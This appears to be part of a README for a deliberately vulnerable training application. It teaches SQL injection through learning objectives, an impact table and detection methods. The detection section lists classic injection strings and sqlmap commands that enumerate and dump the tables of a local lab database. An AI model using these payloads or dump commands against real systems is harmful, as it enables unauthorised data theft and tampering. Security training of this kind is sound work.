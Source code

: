### 🎓 Learning Objectives

- Understand how SQL injection vulnerabilities occur
- Learn various SQL injection techniques (UNION, Boolean, Time-based, Error-based)
- Practice exploiting SQL injection to extract data
- Understand the importance of parameterized queries
- Learn defense-in-depth strategies for SQL injection prevention

### 📊 Impact Assessment

| Impact Type | Severity | Description |
|-------------|----------|-------------|
| Confidentiality | **CRITICAL** | Complete database access, all data readable |
| Integrity | **CRITICAL** | Can modify/delete any data |
| Availability | **HIGH** | Can drop tables, crash database |
| Authentication | **CRITICAL** | Complete authentication bypass |
| **Overall Risk** | **CRITICAL** | Complete system compromise possible |

### 🔍 Detection Methods

**1. Manual Testing:**
```bash
# Look for SQL error messages
' OR '1'='1
" OR "1"="1
' OR '1'='1'--
admin'--
' UNION SELECT NULL--
```

**2. Automated Scanning:**
```bash
# Using sqlmap
sqlmap -u "http://localhost:3000/api/legacy-login" \
  --data='{"username":"test","password":"test"}' \
  --method=POST \
  --level=5 \
  --risk=3 \
  --batch

# Extract all databases
sqlmap -u "http://localhost:3000/api/legacy-login" \
  --data='{"username":"test","password":"test"}' \
  --method=POST \
  --dbs

# Dump all tables
sqlmap -u "http://localhost:3000/api/legacy-login" \
  --data='{"username":"test","password":"test"}' \
  --method=POST \
  -D wcorp_db \
  --dump
```
